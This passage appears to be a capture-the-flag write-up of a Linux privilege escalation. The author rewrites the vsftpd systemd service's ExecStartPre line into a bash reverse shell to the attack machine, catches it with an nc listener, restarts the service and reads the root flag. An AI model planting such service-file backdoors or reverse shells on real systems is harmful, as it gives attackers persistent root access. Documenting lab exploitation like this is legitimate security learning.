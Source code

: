 Since the file in the /etc directory is a symlink to the one in /lib, I will edit the one in /lib. I backup the file before I make any changes:

```bash
$ cp /lib/systemd/system/vsftpd.service /tmp/backup.bak
```

The file was the following before any changes:
```bash
$ cat /lib/systemd/system/vsftpd.service
cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

The line that needs to change is `ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty`.

I change that line to `ExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/<attack_machine_ip>/4446 0>&1'`.

I start a netcat listener on the attack machine:

```bash
$ nc -lnvp 4446
```

Since the configuration file was changed, the systemd state needs to be reloaded:

```bash
$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
$ sudo /usr/sbin/service vsftpd restart
```

I check the listener on the attack machine.

It worked. I'm in! The cursor changed to the # character to let me know that I am root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```
